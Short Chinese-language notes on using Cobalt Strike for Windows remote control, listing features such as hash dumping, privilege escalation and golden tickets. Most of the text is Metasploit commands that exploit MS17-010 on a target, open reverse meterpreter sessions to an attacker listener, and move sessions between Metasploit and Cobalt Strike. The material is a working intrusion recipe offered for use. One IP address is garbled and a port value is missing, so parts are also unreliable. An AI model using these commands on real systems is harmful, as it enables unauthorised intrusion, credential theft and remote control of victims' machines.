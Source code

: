 # cobaltstrike

Windows系统远控

 

与msf的payload通用



dump hashes   dump哈希值

elevate 提权

golden ticket 金票

one-liner 其余主机通过当前主机上险

run minicat 抓取密码

spawn as 降权

desktop(vnc) 远程桌面

spawn 生成新的会话



```sh
search ms17-010
use 0
set rhosts 192.168.21.70
set lhost 192.168.21SWW.122   
#kali 的ip监听
set lport 4444
#监听端口
exploit
#执行payload
收到回来的session


#session迁移-> cobaltstrike
use exploit/windows/local/payload_inject
# 使用此模块
set payload windows/x64/meterpreter/reverse_http
# 设置反弹的payload 

set lhost 192.168.21.14  
#cs服务器的ip
set lport 
#cs监听的端口
set session 1
#设置会话
run
执行








#cobalt strike --->metasploit
msf
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost 192.168.21.122 
```